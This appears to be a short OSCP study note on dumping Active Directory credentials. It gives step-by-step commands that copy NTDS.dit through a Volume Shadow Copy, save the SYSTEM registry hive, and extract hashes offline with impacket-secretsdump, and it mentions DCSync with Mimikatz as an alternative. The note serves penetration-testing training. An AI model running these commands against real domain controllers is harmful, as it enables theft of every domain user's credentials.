 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/o-active-directory-movement/8-shadow-copies/"}
---
```


------------------------
- Shadow Copy, a.k.a. Volume Shadow Service (VSS), is a Microsoft backup technology that allows for creation of snapshots of files and volumes.
- Managed through vshadow.exe.
- As a domain admin one can extract the AD NTDS.dit database file and extract credentials offline.

### Extract ntds.dit AD Database:
1. As domain admin in elevated Powershell run:
```
vshadow.exe -nw -p  C:
```
2. Copy the extracted file to root folder:
```
copy <shadow-copy-device-name>\windows\ntds\ntds.dit c:\ntds.dit.bak
```
3. Save the SYSTEM hive from windows registry:
```
reg.exe save hklm\system c:\system.bak
```
4. Move the two files to Kali and use Impacket to extract credentials:
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

### Alternative OpSec Method:
1. Compromise DC.
2. Get Mimikatz to machine.
3. Dump hashes for all users individually through DCSync attacks.